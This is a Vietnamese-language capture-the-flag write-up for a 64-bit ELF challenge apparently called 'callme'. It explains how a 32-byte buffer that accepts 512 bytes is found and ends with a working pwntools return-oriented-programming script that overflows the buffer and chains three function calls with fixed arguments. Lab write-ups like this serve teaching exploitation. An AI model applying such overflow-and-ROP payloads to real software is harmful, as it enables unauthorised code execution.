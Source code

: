 **1. Tìm lỗi**

Dùng lệnh file kiểm tra

![file.png](photo/file.png)

Ta thấy là file elf64 nên mở bằng IDA64 ta được hàm main như sau: 

![main.png](photo/main.png)

Hàm pwnme: 

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo 32 byte nhưng cho phép đọc 512 byte -> Có lỗi bof

Hàm usefulFunction:

![use.png](photo/use.png)

Đọc mã assembly của hàm callme_one, callme_two, callme_three thì thấy chèn các giá trị 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d vào 3 hàm trên thì sẽ đọc các file cần thiết đề có giá trị flag

**2. Ý tưởng**

Nhập tràn biến s đến ret rồi gọi theo thứ tự các hàm callme_one, callme_two, callme_three với các giá trị tương ứng đã nêu ở trên

Để truyền các giá trị vào các hàm trên thì chúng ta cần truyền các giá trị trên vào các thanh ghi rdi, rsi, rdx nên chúng ta cần phải pop các thanh ghi kia ra

![pop.png](photo/pop.png)

Ta thấy địa chỉ 0x000000000040093c đã pop luôn cả 3 thanh ghi cần thiết ra

**3. Viết script**

![s.png](photo/s.png)

Khoảng cách từ s đến ret là: 0x20 + 0x8 = 40

Ta có script như sau:

```
from pwn import *

r = process("./callme")
pop = 0x000000000040093c
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d
callme_one = 0x7ffff7dc581a
callme_two = 0x7ffff7dc592b
callme_three = 0x7ffff7dc5a2d

payload = b'a'*40
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_one)
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_two)
payload += p64(pop)
payload += p64(arg1) + p64(arg2) + p64(arg3)
payload += p64(callme_three)

r.sendafter('> ', payload)

r.interactive()
```
